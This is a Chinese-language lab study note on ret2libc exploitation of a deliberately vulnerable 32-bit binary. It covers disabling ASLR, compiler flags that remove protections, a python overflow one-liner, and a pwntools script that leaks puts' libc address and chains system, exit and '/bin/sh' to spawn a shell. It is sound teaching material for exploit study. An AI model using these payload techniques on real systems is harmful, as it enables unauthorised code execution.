


# ret2libc

aslr设置

地址空间布局随机化，使每次加载到内存的起始地址随机变化，栈和堆的起始位置随机变化。

开启

```python
sudo sysctl -w kernel.randomize_va_space=2
```

关闭

```
sudo sysctl -w kernel.randomize_va_space=0
```

## 编译

make.sh文件

```shell
 gcc -o vul -fno-pie -no-pie -m32 -fno-stack-protector vul.c
```

1. `-o`用于指定要生成的结果文件，后跟文件名。（o是目标的意思）文件可以是预处理文件、汇编文件、目标文件或最终可执行文件
2. `-fno-pie `  `-no-pie`使程序位置固定（不要随机）
	1. Position-Independent-Executable，PIE能使程序像共享库一样在主存任何位置装载，这需要将程序编译成位置无关，并链接为ELF共享对象，引入PIE的原因是让程序能装载在随机的地址。
	2. gcc中的-fpic选项，使用于在目标机支持时，编译共享库时使用。编译出的代码将通过全局偏移表(Global Offset Table)中的常数地址访存，动态装载器将在程序开始执行时解析GOT表项(注意，动态装载器操作系统的一部分，连接器是GCC的一部分).
	3. gcc中的`-fpie`和`-fPIE`选项和`fpic`及`fPIC`很相似，但不同的是，除了生成为位置无关代码外，还能假定代码是属于本程序。通常这些选项会和GCC链接时的-pie选项一起使用。fPIE选项仅能在编译可执行码时用，不能用于编译库。所以，如果想要PIE的程序，需要你除了在gcc增加`-fPIE`选项外，还需要在ld时增加-pie选项才能产生这种代码。即`gcc -fpie -pie`来编译程序。单独使用哪一个都无法达到效果。
		你可以使用file命令来查看当前的可执行文件是不是PIE的。
3. `-m32`
	1. `-mx32`在64位系统中，指针和long都是64位的，64位数据运算速度远远慢于32位数据，指针和long是32位既浪费了高4字节的空间，又拖累了运行速度，于是有人搞出了指针和long是32位的`mx32`：你同样可以使用INT64这样的8字节数据，但编译出的程序体积更小，运行速度更快。
	2. `-m32`：编译出来的是32位程序，既可以在32位操作系统运行，又可以在64位操作系统运行。
	3. `-m16`，只有在32位的linux上才能使用，同样需要在编译内核时做设置，只有在32位内核中才有该选项，gcc同样也只有32位版本才支持。
4. `-fno-stack-protector`不要栈溢出检测
	1. `stack-protector`：保护函数中通过`alloca()`分配缓存以及存在大于8字节的缓存。缺点是保护能力有限。

##### 预处理文件、汇编文件、目标文件或最终可执行文件

- C语言源程序—预处理—>汇编程序—汇编—>二进制目标程序—链接—>可执行程序

- 1.预处理主要由预处理器完成。这一阶段一共完成4件事。

	1)头文件的展开：将程序中所用的头文件用其内容来替换头文件名。

	2)宏替换：扫描程序中的符号，将其 替换成宏所定义的内容。

	3)去掉注释：去掉程序中的注释。

	4）条件编译：在程序中难免会有文件的重复引用，如果每次引用都要重新调用文件中的内容，这样就会增加许多不必要的开销 。所以为了防止这种情况的发生，我们在文件中使用条件编译符号来防止这种情况的发生。

- 3.链接，就是将程序中出现的函数等，与其源文件进行“匹配连接”，例如实现标准输入输出就需要链接到库文件stdio.h中。因为在程序中我们只是调用这些函数，真正的实现还是在库文件中。

## exploit.sh溢出的内容检测

```shell
python -c 'print "A"*(0x28 + 4)+"\x10\x8e\xe2\xf7" + "dead" + "\x8f\x78\xf6\xf7"  ' > e

(cat e ; cat) | ./vul
```

1. `python -c`在命令行中执行python代码，`-c`是`command`的意思。

	1. 因为后面必须接一个字符串，可以用`" "`来放字符串，但是这样如果指令的字符串里面有字符串就没办法了，所以一般用三引号`'''print("hello")'''`来标识，其中可以换行和调用函数。

2. `> e`将生成的字符输入到文件`e`中（没有后缀名，就是一些bytes），然后

3. cat（英文全拼：concatenate）命令用于连接文件并打印到标准输出设备上。

	1. ```shell
		cat [-AbeEnstTuv] [--help] [--version] fileName
		```

4. 管道触发两个子进程执行"|"两边的程序，左边的命令应该有标准输出 | 右边的命令应该接受标准输入

## vul.c溢出分析

```c
 register void *ebp asm ("ebp");
```

在C语言中，`register`关键字用于请求[编译器](https://so.csdn.net/so/search?q=编译器&spm=1001.2101.3001.7020)将变量直接定义在寄存器中(编译器可能会根据实际情况忽略这个请求)。然而，这个功能在C++中是一个鸡肋，因此大多数C++不会针对`register`关键字进行特殊优化。

```c
char *shell = (char *) getenv("MYSHELL");
```

函数说明:getenv用来取得参数envvar环境变量的内容。参数envvar为环境变量的名称，如果该变量存在则会返回指向该内容的[指针](https://baike.baidu.com/item/指针)。环境变量的格式为envvar=value。getenv函数的返回值存储在一个全局二维数组里，当你再次使用getenv函数时不用担心会覆盖上次的调用结果。

**返回值:** 执行成功则返回指向该内容的指针，找不到符合的[环境变量](https://baike.baidu.com/item/环境变量)名称则返回NULL。如果变量存在但无关联值，它将运行成功并返回一个[空字符串](https://baike.baidu.com/item/空字符串)，即该字符的第一个字节是null。

### 步骤

1. 先通过读汇编，从`libc.asm`中找到几个关键函数地址，libc中的函数地址都是偏移地址。

	```python
	offset_system = 0x0003ce10
	#0003ce10 <__libc_system@@GLIBC_PRIVATE>:
	
	offset_str_bin_sh = 0x17b88f
	offset_exit = 0xbe295
	#000be295 <_exit@@GLIBC_2.0>:
	
	offset_puts = 0x00067460
	#00067460 <_IO_puts@@GLIBC_2.0>:
	main_addr = 0x08048534
	```

	这是从`libc`表中拿到的偏移地址，作为准备

2. 通过读汇编 ，找到函数在`plt`代码模块中puts函数的绝对地址

	```asm
	#python
	puts_plt = 0x08048370
	puts_got = 0x804a018
	
	#vul.asm
	08048370 <puts@plt>:
	 8048370:	ff 25 18 a0 04 08    	jmp    *0x804a018
	 8048376:	68 18 00 00 00       	push   $0x18
	 804837b:	e9 b0 ff ff ff       	jmp    8048330 <.plt>
	```

	plt是代码，里面去call `got`里面的地址，也就是`libc	`中的函数地址，`got`只是一个放地址的数据表。

	可以通过`readelf -S vul`找到 got 和 plt 的库的位置

3. 把你获得的地址扔给buffer，把返回地址覆盖成库函数的地址

	```python
	p = process(path)
	
	rop  = p32(puts_plt)#fake ret
	rop += p32(main_addr)#puts的return addr
	rop += p32(puts_got)#arg for puts
	
	payload = "A"*(0x28 + 4) + rop + '\n'
	
	p.send(payload)
	```

	

4. 拿到返回的puts的绝对地址后，通过绝对和相对的差，算出需要的`system` `binsh` `exit`的绝对地址

	```python
	p.recvline()#ebp
	p.recvline()#buffer
	p.recvline()#ebp-buf
	p.recvline()
	leak = p.recv(4)#接受4个字节，也就是32bits
	puts_libc = u32(leak)
	log.info("puts@libc: 0x%x" % puts_libc)
	p.clean()
	
	# # Calculate the required libc functions
	libc_base = puts_libc - offset_puts
	system_addr = libc_base + offset_system
	binsh_addr = libc_base + offset_str_bin_sh
	exit_addr = libc_base + offset_exit
	```

5. 将栈中布局设置为3个连续的返回地址，因为在每一次进入那个函数的时候都会去自动找返回地址，所以每一个函数中都自带ret，就可以实现放几个地址进几个函数，最后回到最高的地址位。

	```python
	rop2  = p32(system_addr)
	rop2 += p32(exit_addr)
	rop2 += p32(binsh_addr)
	
	payload2 = "A"*(0x28 + 4) + rop2 + '\n'
	```

6. 然后把这些东西都输出，你就拿到了所有地址

	```
	log.info("libc base: 0x%x" % libc_base)
	log.info("system@libc: 0x%x" % system_addr)
	log.info("binsh@libc: 0x%x" % binsh_addr)
	log.info("exit@libc: 0x%x" % exit_addr)
	```

7. 之后程序就会运行binsh

整个的流程就是`main-vul-puts-main-vul-system-exit-binsh`程序会不断回到main，调用vul，被篡改返回地址，最后拿到binsh_addr的时候就可以跳出了。


### 这里还有一种方法

https://baijiahao.baidu.com/s?id=1668554718579472983&wfr=spider&for=pc

利用libcSearcher的库去找位置，大概的使用方法如下。

```python
from pwn import *

from LibcSearcher import *

context.log_level="debug"

p=process("./01_shellcodeAgain")

elf=ELF("./01_shellcodeAgain")
puts_plt=elf.plt['puts']
puts_got=elf.got['puts']

log.info("puts_plt: 0x%x",puts_plt)
log.info("puts_got: 0x%x",puts_got)

#因为虚拟机我们没有权限所以没办法加代码包，所以这个用不了
#
```

因为虚拟机我们没有权限所以没办法加代码包，所以这个用不了。如果在自己的python环境下应该是可以的 


关于lab2，如何将获取的字符串转为数值

[字符编码和python使用encode,decode转换utf-8, gbk, gb2312 - jxzheng - 博客园 (cnblogs.com)](https://www.cnblogs.com/jxzheng/p/5186490.html)


关于



1.checksec

是用来检查[可执行文件](https://so.csdn.net/so/search?q=可执行文件&spm=1001.2101.3001.7020)属性的。

**Arch**：说明这个文件的属性是什么，说明是32位的程序。

**Stack**：canary，这个主要是说栈保护的东西，所利用的东西就是相当于网站的cookie，linux中把这种cookie信息称为canary，所以如果开启了这个，就一般不可以执行shellcode了。

**RELRO**：设置符号重定向表格为只读，或在程序启动时就解析并绑定所有动态符号，从而减少对GOT（Global Offset Table）攻击。如果RELRO为” Partial RELRO”，说明我们对GOT表具有写权限。

**NX（DEP）**即No-eXecute（不可执行）的意思，同样的，如果NX开启后，溢出转到shellcode以后，由于开启了不可执行，所以cpu就会抛出异常，而不去执行恶意指令。

**PIE（ASLR）**地址分布随机化。


#### 参考文档

[python -c 妙用 - ChnMig - 博客园 (cnblogs.com)](https://www.cnblogs.com/chnmig/p/14207100.html)

[(3条消息) gcc编译选项-o和-c介绍_chengqiuming的博客-CSDN博客_gcc-o](https://blog.csdn.net/chengqiuming/article/details/88376143)

[(3条消息) gcc编译-m32、-mx32有什么区别_Segment fault的博客-CSDN博客_-m32 g++](https://blog.csdn.net/Namcodream521/article/details/85109061)

[(3条消息) GCC中的pie和fpie选项_ivan240的博客-CSDN博客_gcc pie](https://blog.csdn.net/ivan240/article/details/5363395)

[(3条消息) 关于C文件预处理的理解_haitang_yue的博客-CSDN博客_预处理文件](https://blog.csdn.net/haitang_yue/article/details/52840020)

[gcc栈溢出保护机制：stack-protector - ArnoldLu - 博客园 (cnblogs.com)](https://www.cnblogs.com/arnoldlu/p/11630979.html)

[(3条消息) pwn题解level（2）_颜又舞的博客-CSDN博客](https://blog.csdn.net/qq_43627239/article/details/97289853)


关于p64和u64的[(3条消息) Pwn入门笔记（三）函数细节_Wust-Mo0n5ea丶的博客-CSDN博客](https://blog.csdn.net/qq_33590156/article/details/110124948?utm_medium=distribute.pc_aggpage_search_result.none-task-blog-2~aggregatepage~first_rank_ecpm_v1~rank_v31_ecpm-2-110124948.pc_agg_new_rank&utm_term=p64+pwn+函数&spm=1000.2123.3001.4430)

[64位的简单pwn - gudy - 博客园 (cnblogs.com)](https://www.cnblogs.com/gudygudy/p/14674024.html)


常见bug：

unpacked 8bytes什么的 ，因为字符串（一位1byte，askii）没有转化为数字（一位1byte，数值）或者字节（一位1bit，数值）

解决方案：

```
leak = p.recv(12)
shelladdr=int(leak1,16)
```

关于64位传递参数

[(3条消息) 通用gadget详解_轩渊的博客-CSDN博客_gadget](https://blog.csdn.net/weixin_44932880/article/details/103692899)

当参数少于7个时， 参数从左到右放入[寄存器](https://so.csdn.net/so/search?q=寄存器&spm=1001.2101.3001.7020): rdi, rsi, rdx, rcx, r8, r9。

当参数为7个以上时， 前 6 个与前面一样， 但后面的依次从 “右向左” 放入栈中，即和32位汇编一样。

一个例子[(3条消息) PWN基础17：Ret2Libc 64位实例_prettyX的博客-CSDN博客](https://blog.csdn.net/prettyX/article/details/107507184)

